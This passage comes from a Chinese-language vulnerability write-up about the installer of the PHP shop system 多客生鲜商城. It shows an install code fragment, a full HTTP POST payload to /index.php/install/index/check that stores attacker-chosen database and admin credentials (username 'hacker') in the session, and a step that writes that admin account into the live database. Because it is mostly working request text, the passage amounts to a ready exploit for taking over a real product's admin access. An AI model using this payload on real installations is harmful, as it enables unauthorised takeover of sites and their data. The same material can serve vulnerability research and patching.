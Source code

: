 ```
        return success([
                       'error' => 0,
                       'message' => '增加管理员信息成功！'
                       ]);
      }
      return error([],'增加管理员信息失败,请检查配置或者重新安装（需要删掉已安装的数据库）');
    }
  }
```  
  
**其实一看他这段代码，就知道为什么会有某种逻辑缺陷了，将安装的数据写到Session中，然后安装时再利用Session::get()去读取数据.**  
  
**payload 1:**  
```
POST /index.php/install/index/check HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 328
Content-Type: application/json
Cookie: thinkphp_show_page_trace=0|0; thinkphp_show_page_trace=0|0; thinkphp_show_page_trace=0|0; thinkphp_show_page_trace=0|0; Hm_lvt_fc57361ae07d02ff0e22fc7acd0b2553=1711823704,1711863189; __51vcke__Jn7D2bUCe2U5jXJk=2a2f79b5-b57f-565a-a544-da2a60149048; __51vuft__Jn7D2bUCe2U5jXJk=1713527328654; __51uvsct__Jn7D2bUCe2U5jXJk=3; ECS_ID=e2f2a6564b64ffe4b314be9952098e9a4919cbc5; ECS[visit_times]=1; Hm_lvt_8513c8e18c0a7dc33633b4e6b1880ecb=1713617487; Hm_lpvt_8513c8e18c0a7dc33633b4e6b1880ecb=1713617507; ECSCP_ID=54e4831a83b5b6bd7bd76e16a8f583f9adaabbae; think_var=zh-cn; PHPSESSID=2cee48315c70109480b9890a4b0558b3; thinkphp_show_page_trace=0|0
Host: 127.0.0.1:81
Origin: http://127.0.0.1:81
Referer: http://127.0.0.1:81/index.php/install/index/check
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

{"hostname":"127.0.0.1","hostport":"3306","database":"123123","username":"root","password":"root","charset":"utf8","prefix":"xn_","title":"多客生鲜商城","keywords":"多客生鲜商城","description":"多客生鲜商城","admin_title":"多客生鲜商城","admin_username":"hacker","admin_password":"123456"}
```  
  
**注意，数据库名不能和他原本使用的数据库名一致，使用云数据库也行，上面的任意文件读取漏洞就派上了用场咯.    当出现ok说明数据已经写入到Session中，要是数据库连接不上则不写入到Session.**  
  
****  
**然后我们只需要进入到admin方法，即可将管理员数据写入到原有数据库当中!**  
  